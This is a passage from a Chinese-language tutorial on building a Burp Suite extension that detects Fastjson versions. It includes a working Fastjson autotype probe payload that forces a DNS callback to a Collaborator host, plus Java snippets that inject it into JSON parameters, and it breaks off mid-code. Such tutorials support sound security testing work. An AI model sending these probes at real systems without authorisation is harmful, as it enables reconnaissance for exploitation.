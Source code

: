   这些结合起来便可以完成一个`Burp`插件的开发了

## 实例

  前段时间出了`Fastjson 1.2.80`的利用与检测方式，刚好我们拿来做一个`Fastjson`检测的插件，`payload`如下：

```plain
[
    {
        "@type":"java.lang.Exception","@type":"com.alibaba.fastjson.JSONException",
        "x":{
            "@type":"java.net.InetSocketAddress"{"address":,"val":"80.DNS"} //  fastjson < 1.2.83
        }
    },
    {
        "@type":"java.lang.Exception","@type":"com.alibaba.fastjson.JSONException",
        "message":{
            "@type":"java.net.InetSocketAddress"{"address":,"val":"83_.DNS"} // fastjson = 1.2.83
        }
    }
]
```

  如果 `fastjson`版本低于`1.2.83`，`DNS`只会收到一个`80`开头的请求，方便我们进行版本判断。我们的检测思路就是遇到`json`格式的`body`或者`param`就全部替换为`payload`，具体操作如下：

1.  1. 获取请求详情
    

```plain
HttpRequest request = httpRequestResponse.httpRequest();

获取参数
List<ParsedHttpParameter> parameters = request.parameters();
```

1.  2. 判断参数值是否为`json`格式
    

```plain
//utilities.urlUtils 包含了对 URL 处理的函数，这里使用了 decode，对 URL 进行解码
utilities.urlUtils().decode(p.value()).startsWith("{") ||utilities.urlUtils().decode(p.value()).startsWith("[") 
```

1.  3. 生成`collaboratorClient`并发送请求
    

```plain
//生成 collaborator 链接
String payload = collaboratorClient.generatePayload().toString();

// poc
private String Fastjson_Payload = "[\n" +
        "    {\n" +
        "        \"@type\":\"java.lang.Exception\",\"@type\":\"com.alibaba.fastjson.JSONException\",\n" +
        "\t\t\"x\":{\n" +
        "\t\t\t\"@type\":\"java.net.InetSocketAddress\"{\"address\":,\"val\":\"fastjson80.%s\"} \n" +
        "\t\t}\n" +
        "    },\n" +
        "    {\n" +
        "        \"@type\":\"java.lang.Exception\",\"@type\":\"com.alibaba.fastjson.JSONException\",\n" +
        "\t\t\"message\":{\n" +
        "\t\t\t\"@type\":\"java.net.InetSocketAddress\"{\"address\":,\"val\":\"fastjson83.%s\"} \n" +
        "\t\t}\n" +
        "    }\n" +
```